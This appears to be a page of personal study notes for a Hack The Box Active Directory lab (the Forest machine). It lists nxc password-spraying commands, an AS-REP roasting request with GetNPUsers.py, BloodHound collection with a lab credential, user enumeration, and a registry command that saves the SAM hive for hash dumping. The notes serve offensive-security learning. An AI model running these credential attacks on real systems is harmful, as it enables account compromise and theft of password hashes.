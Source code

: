    ```bash
    nxc smb 10.10.10.161 -u user.txt -p user.txt --no-bruteforce
   ```

   ```bash
    nxc smb 10.10.10.161 -u user.txt -p user.txt --no-bruteforce --local-auth
   ```

   ```bash
   nxc smb 10.10.10.161 -u "" -p "" --pass-pol
   ```

   

4. Get a session in WinRM

5. If you cannot, Kerberos bruteforcing

   ```bash
   GetNPUsers.py htb.local/ -usersfile user.txt -request -dc-ip 10.10.10.161 
   ```

6. Dump and analyze th database

   ```bash
    bloodhound-python -u svc-alfresco -p s3rvice -ns 10.10.10.161 --domain htb.local -c All --zip --dns-tcp
   ```

   

### nxc

Generic tool to navigate all the authentication protocols. The guide: https://www.netexec.wiki/

`nxc [PROTOCOL] [TARGET] -u [USERNAME] -p [PASSWORD] --port [PORT] [OPTIONS]`

To do *password spraying*, you can put a file instead of the username, with the most common ones, and using the `--continue-on-success` flag

To enumerate the users, use th flag `--users` or `--active-users` for ldap.

Possible protocols:

	- ftp
	- smb
	- ssh
	- vnc
	- rdp
	- winrm
	- msSQL

```bash
windapsearch -d htb.local --dc-ip 10.10.10.161 --users --full > users.txt
```

### Hash Dumping

If you have have administrator privileges, you can dump other users passwords hashes:

`reg save hklm\sam sam`
